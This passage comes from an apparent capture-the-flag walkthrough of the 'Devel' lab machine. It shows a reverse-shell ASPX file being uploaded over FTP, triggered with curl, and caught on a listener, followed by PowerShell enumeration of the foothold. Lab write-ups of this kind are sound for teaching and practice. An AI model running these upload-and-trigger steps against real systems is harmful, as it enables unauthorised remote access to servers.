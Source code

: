 ### Exploitation

I'll connect to the FTP server once again.

```sh
❯ ftp "10.10.10.5"
```

Then, I'll upload the `revshell.aspx` file:

```sh
ftp> put "/workspace/revshell.aspx" "/revshell.aspx"
```

```
<SNIP>
226 Transfer complete.
<SNIP>
```

Finally, let's trigger our `revshell.aspx` file!

```sh
❯ curl -s -o "/dev/null" "http://10.10.10.5/revshell.aspx"
```

And if we check our listener:

```
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.5] 49159
<SNIP>
c:\windows\system32\inetsrv>
```

It caught the reverse shell!

I'll transform it into a Powershell one.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `iis apppool\web`.

### Architecture

What is Devel's architecture?

```ps1
PS C:\windows\system32\inetsrv> Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" | Select-Object -ExpandProperty "PROCESSOR_ARCHITECTURE"
```

```
x86
```

It's using x86. Let's keep that in mind to select the appropriate binaries.

### Version

Let's gather some information about the Windows version of Devel.
